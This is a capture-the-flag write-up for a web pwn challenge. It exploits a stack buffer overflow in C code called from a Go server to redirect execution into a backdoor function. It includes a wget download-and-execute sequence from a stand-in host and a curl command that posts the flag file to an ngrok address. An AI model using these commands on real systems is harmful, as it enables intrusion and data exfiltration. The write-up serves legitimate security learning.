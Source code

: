 # Go Pwn Gown (day7)

<p align="justify">This challenge was a Pwn challenge in which the goal was to perform a buffer overflow on a website to read the flag stored on the server. Source code was provided with a docker file so that the server could have been ran locally, which revealed very helpful insofar as I had access to server logs. </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> Looking at source files, it seemed that a backdoor was already included in the code of the running server. This backdoor shown in the snippet below could have been used to run command remotely : </p>

````c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}

void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
````

<p align="justify">  The flaw here was caused by the use of a buffer of size 64 in which 128 bytes were copied. The parameter gown was read from the website and then handled thanks to the function below, calling the unsafeFunction() containing the weakness : </p>

````c
func handleRequest(w http.ResponseWriter, r *http.Request) {
	log.Println("Calling handleRequest")
	defer func() {
		log.Println(r.URL.Path)
		gown := r.URL.Query().Get("gown")
		if gown == "" {
			http.Error(w, "Gown parameter is missing", http.StatusBadRequest)
			return
		}

		cGown := C.CString(gown)
		if i := strings.IndexByte(gown, '\x00'); i != -1 {
			gown = gown[:i]
		}
		os.Setenv("GOWN", string(gown))
		fmt.Println("Getenv(GOWN) = ", os.Getenv("GOWN"))
		defer C.free(unsafe.Pointer(cGown))

		C.unsafeFunction(cGown)
		// C.laluBackdoor()
		w.Write([]byte("Request handled\n"))
	}()
}
````

<p align="justify">To exploit it, I started by running the docker on my machine to adjust my payload using the logs. I developped a tiny C script available under exploit.c in this repo, to guess the number of chars I had to sent before overwritte ret address on the stack. The method I followed is described below : </p>

- I started by extracting the server binary running in the docker
- Then I extracted the address of the lalubackdoor using gdb
- I used this address in little endian format crafting the payload like this : payload = 64* 'A' + [little endian backdoor address]. I started with 64 bytes because it was the size of the buffer
- Then I sent the payload to the server and added one char at each lap, checking the logs in the meaningtime to identify the exact number of bytes required to perform a bof

<p align="justify">It came that I had to sent 72 chars before being able to overwritte the ret address and access lalubackdoor, as shown in the snippet below with the error on the execution of /bin/bash meaning that I well overwrote the ret address : </p>

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="justify"> The payload size once defined; I implemented a second C script to send commands to run to the server so that I could have been able to read the flag, the script is available in exploit2.c in this repo. This script adjusts payload size considering length of command and relay it to server to perform RCE. After a few tries I identified the directory /flag which was likely to contain the flag as shown in the screenshots below : </p>

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>
<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="justify"> Finaly after adjusting my payload locally, I opened a listening port on my machine and sent the bash script below to read the flag on the challenge server and extract it. Actually I tried to download and launch a compiled revshell but I failed because LibC (nc too) was missing on the server. I'v done it with 3 commands : </p>

 - 1st : wget http://evilserv/exploit.sh
 - 2nd : chmod +x exploit.sh
 - 3rd : ./exploit.sh
   
````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

<p align="justify"> After that I received the flag : </p>

<p align="center"><img src="Screenshots/S5.png" alt="Desc"></p>

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !
